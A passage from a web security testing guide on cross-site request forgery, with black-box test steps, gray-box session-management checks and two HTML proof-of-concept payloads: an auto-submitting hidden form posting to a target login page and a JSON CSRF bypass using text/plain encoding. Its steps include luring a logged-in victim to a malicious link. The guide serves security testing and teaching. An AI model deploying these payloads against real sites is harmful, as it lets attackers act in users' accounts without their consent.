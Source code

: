 Either way, a test case can be constructed as follows:

- let *u* the URL being tested; for example, u = `http://www.example.com/action`
- build an html page containing the http request referencing URL u (specifying all relevant parameters; in the case of http GET this is straightforward, while to a POST request you need to resort to some Javascript);
- make sure that the valid user is logged on the application;
- induce him into following the link pointing to the URL to be tested (social engineering involved if you cannot impersonate the user yourself);
- observe the result, i.e. check if the web server executed the request.

### Gray-Box Testing

Audit the application to ascertain if its session management is vulnerable. If session management relies only on client side values (information available to the browser), then the application is vulnerable. "Client side values” mean cookies and HTTP authentication credentials (Basic Authentication and other forms of HTTP authentication; not form-based authentication, which is an application-level authentication). For an application to not be vulnerable, it must include session-related information in the URL, in a form of unidentifiable or unpredictable by the user (uses the term *secret* to refer to this piece of information).

Resources accessible via HTTP GET requests are easily vulnerable, though POST requests can be automated via Javascript and are vulnerable as well; therefore, the use of POST alone is not enough to correct the occurrence of CSRF vulnerabilities.

In case of POST, the following sample can be used.

- Step 1. Create a HTML as below
- Step 2. Update the HTML to malicious site
- Step 3. Send the link `http://maliciousSite/CSRF.html` to victim to click it.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://tagetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

In case of web applications in which developers are utilizing JSON for browser to server communication. A problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We'll have to change the encoding type (enctype) to text/plain for sanity (to ensure the payload is delivered "as is"). The exploit code will look like the following:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
